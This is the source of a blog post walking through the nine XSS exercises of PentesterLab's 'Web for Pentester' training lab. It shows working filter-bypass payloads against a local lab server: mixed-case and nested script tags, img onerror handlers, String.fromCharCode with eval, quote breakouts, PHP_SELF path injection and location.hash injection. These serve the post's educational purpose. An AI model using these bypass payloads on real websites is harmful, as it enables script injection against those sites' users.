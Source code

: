 ```yaml
---
layout:     post
title:      "Web for Pentester"
subtitle:   "XSS Write-Up"
date:       2016-09-01 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
permalink: /:title/
category: Write-Ups
---
```


<p>Today we're going to continue our journey through the word of web application security - more accurately XSS exercises from <a href="https://pentesterlab.com/">PentesterLab</a>. It's great way to practice what we have learned so far and also - good challenge. Let's jump into the first one!</p>

<h3>Exercise 1</h3>

<p>Here we have a very basic example of Cross Site Scripting where you have to change the variable that is visible in the URL (which is our example is <i>name=hacker</i>) into the alert script that will allow us to see whether if it works. </p>

{% highlight html %}
http://192.168.0.12/xss/example1.php?name=<script>alert("Xss")</script>
{% endhighlight %}

![exercise-1](/img/xss-exercise/exercise-1.png){:class="img-responsive"}

<p>Great, it works perfectly, let's move to the next one!</p>

<h3>Exercise 2</h3>
<p>Firstly I wanted to try whether the method from the previous one works but as I suspected it didn't. What we got after entering script was this source code. </p>

{% highlight html %}
<div class="container">
Hello
alert("Xss")
{% endhighlight %}

<p>It may be somehow filtering our input - maybe changing it to uppercase will help us? </p>   

{% highlight html %}
http://192.168.0.12/xss/example2.php?name=<sCript>alert("Xss")</sCript>
{% endhighlight %}

<p>Great! It works and we've bypassed the filter. Let's move on to the next one! </p>

<h3>Exercise 3</h3>

<p>This one is a little harder - it doesn't allow <b>script</b> or even <b>sCript</b> so we have to try something else. From what I learned about methods to bypass filtering it may be possible to use this simple trick. </p>

{% highlight html %}
http://192.168.0.12/xss/example3.php?name=<scr<script>ipt>alert("Xss")</scr</script>ipt>
{% endhighlight %}

<p>If you don't know how this works - the filter firstly looks for <i>script</i> tag, deletes it, and then sends the result. But after taking out the script two other parts <b>scr</b> and <b>ipt</b> will merge into one creating our payload. </p>

<h3>Exercise 4</h3>

<p>Here it looks like more advanced version of filter, it completely takes out the word script and when the request matches script, it will stop. So what options do we have to bypass it? We can put <b>img</b> tag with some attributes allowing us to create a paylod. Onmouseover will be an excellent example but you can use any other you will think that will work. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onmouseover="alert('XSS')"></img>
{% endhighlight %}

<p>It will even better work with <b>onerror</b> since it will execute automatically when the page loads. </p>

{% highlight html %}
http://192.168.0.12/xss/example4.php?name=<img src="blabla" onerror="alert('XSS')"></img>
{% endhighlight %}

<h3>Exercise 5</h3>

<p>This one is a little trickier - it allows <b>script</b> tags but doesn't allow <b>alert</b> function. How can we make it alert something without actually typing it? We can translate this into the ASCII characters. </p>

{% highlight html %}
alert("XSS") = 097 108 101 114 116 040 034 088 083 083 034 041
{% endhighlight %}

<p>Which after small redesign will result in actually working XSS!</p>

{% highlight html %}
http://192.168.0.12/xss/example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>
{% endhighlight %}

<h3>Exercise 6</h3>

<p>This one is a little different. After looking into the source code (which you should always do at the beginning) we get this small JavaScript code. </p>

{% highlight html %}
Hello
<script>
	var $a= "hacker";
</script>
{% endhighlight %}

<p>Vaule of $a changes everytime we enter something different in <b>name=</b> field. We can try to manipulate this script into running alert function. Firstly I add <b>"</b> character to indicate that text is before this quotiation mark. Then let's add <b>;</b> as it's always used in JavaScript at the end of a line. After that I'm ready to add <b>alert('XSS')</b> but it still won't work because of the quotiation mark at the end of the input so let's try commenting it out with <b>//</b>. And it works!</p>

{% highlight html %}
http://192.168.0.12/xss/example6.php?name=me";alert('XSS')//
{% endhighlight %}

<h3>Exercise 7</h3>

<p>Here w're dealing with similar challenge as in the previous one. </p>
{% highlight html %}
Hello
<script>
	var $a= 'hacker';
</script>
{% endhighlight %}

<p>Using the previous strategy I manage to get the XSS alert working. </p>
{% highlight html %}
http://192.168.0.12/xss/example7.php?name=hacker';alert('XSS');//
{% endhighlight %}

<h3>Exercise 8</h3>
<p>Hmmm... We've got the input field that will not allow any of our XSS tricks. I actually had no idea how to attack this example so I checked out hints provided by PentesterLab. Let's take a look at them. </p>

<p><i>Here, the value echoed back in the page is correctly encoded. However, there is still a XSS vulnerability in this page. To build the form, the developer used and trusted PHP_SELF which is the path provided by the user. It’s possible to manipulate the path of the application in order to:</i></p>
<ol>
<li><i>call the current page (however you will get an HTTP 404 page);</i></li>
<li><i>get a XSS payload in the page.</i></li>
</ol>
<p><i>This can be done because the current configuration of the server will call /xss/example8.php when any URL matching /xss/example8.php/... is accessed. You can simply get your payload inside the page by accessing /xss/example8.php/[XSS_PAYLOAD]. Now that you know where to inject your payload, you will need to adapt it to get it to work and get the famous alert box.</i></p>

<p>Wow, I haven't thought about that. Let's see what happens if we simply add it <b>/xss/example8.php/[XSS_PAYLOAD]</b> like in here. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/<script>alert("XSS")</script>
{% endhighlight %}

<p>But it still doesn't work. We have to somehow tweak it into the working version. </p>

{% highlight html %}
<form action="/xss/example8.php/<script>alert("XSS")</script>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>
{% endhighlight %}

<p>If we take a look at it a little closer we can see that if we add <b>"></b> after the example8.php it will close the path and allow script to execute. </p>

{% highlight html %}
http://192.168.0.12/xss/example8.php/"><script>alert("XSS")</script>
{% endhighlight %}

<p>To the last one!</p>

<h3>Exercise 9</h3>
<p>By looking at the source code it reveals to us that the script is simply executing everything after the hash string.</p>
{% highlight html %}
<script>
    document.write(location.hash.substring(1));
</script>
{% endhighlight %}
<p>Solution will look like this. I don't know why but it worked for me only in Chrome browser, not in Firefox. Luckily we managed to complete this set of exercises. </p>
{% highlight html %}
http://192.168.0.12/xss/example9.php#<script>alert("XSs")</script>
{% endhighlight %}

<p>Thanks for tuning in! It was great challenge, and I'm sure to complete other exercise on Web for Pentester ISO. Hopefully there will be more XSS challenges as I'm really enjoying them. </p>
